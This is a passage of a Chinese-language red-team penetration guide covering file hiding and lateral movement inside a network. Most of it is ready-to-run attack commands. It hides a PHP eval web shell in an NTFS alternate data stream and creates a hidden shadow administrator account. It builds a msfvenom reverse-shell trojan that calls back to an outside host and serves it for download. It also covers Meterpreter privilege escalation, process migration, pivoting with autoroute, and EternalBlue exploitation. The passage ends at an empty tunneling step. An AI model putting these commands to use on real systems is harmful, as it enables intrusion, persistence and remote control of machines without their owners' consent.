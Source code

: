 使用命令将文件隐藏，并且设置为系统文件，如果不关闭隐藏系统文件的选项，依旧无法查看文件，可以使用cmd命令`dir /a`查看。
```bash
attrib +s +h 文件名
```
+ ADS隐藏

使用命令创建index.php文件，记事本双击打开index.php，无内容。使用cmd命令`dir /r`来查看当前目录所有文件，会发现存在index.php:hidden.jpg:$DATA文件。使用命令打开才能看到内容。`del index.php`删除文件
```bash
echo ^<?php @eval($_POST['chopper']);?^> > index.php:hidden.jpg
notepad index.php:hidden.jpg:$DATA
```
# 5-横向渗透
## 红队手法
**c端探测**
先查看存活主机，然后扫描存活主机，检查是否存在3389RDP、21FTP等端口。最后对应破解，找到有两张网卡的跳板机。
```bash
root@kali:~# nmap -sn 220.181.38.0/24
```
**横向渗透**
3389爆破成功，远程连接后：
+ 在cmd中输入命令，创建影子用户，net uesr无法查看，可以复制注册表中管理员的权限到创建的影子用户，实现克隆账号
```bash
net hacker$ passwd /add
```
+ 回到kail，接下来控制跳板机，在`/var/www/html`下生成exe木马，此木马没有免杀功能，开启apache服务
```bash
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp lhost=123.123.123.123 lport=5555 -f exe -o 1.exe
root@kali:~# /etc/init.d/apache2 start
```
+ 远程连接跳板机，浏览器访问`123.123.123.123/1.exe`下载木马到本地，然后kail使用msf远控
```bash
root@kali:~# msfconsole
>use exploit/multi/handler
>set payload windows/meterpreter/reverse_tcp
>set lhost 123.123.123.123
>set lport 5555
>run
```
**进程迁移**
+ 回到windows下运行木马，kail提权，查看当前运行程序的pid，进程迁移，ps查看迁移到哪个进程了。
```bash
>getsystem
>getpid
>run post/windows/manage/migrate
>ps
```
**msf制作跳板**
+ 接下来要制作跳板对核心管理员电脑攻击，首先查看跳板机的两块网卡ip段，然后制作跳板，最后查看是否成功
```bash
>run get_local_subnets
>run autoroute -s 内网ip/24
>run autoroute -p
>background
```
+ 利用永恒之蓝攻击核心机
```bash
>use exploit/windows/smb/ms17_010_eternalblue
>set rhost 管理员电脑ip
>run
```
**ew制作跳板**
+ 通过ew搭建隧道攻击核心机，蚁剑连接后上传ew_for_win.exe(注意上传的版本是否正确)，创建正向代理，使跳板机开放6666端口
```bash
```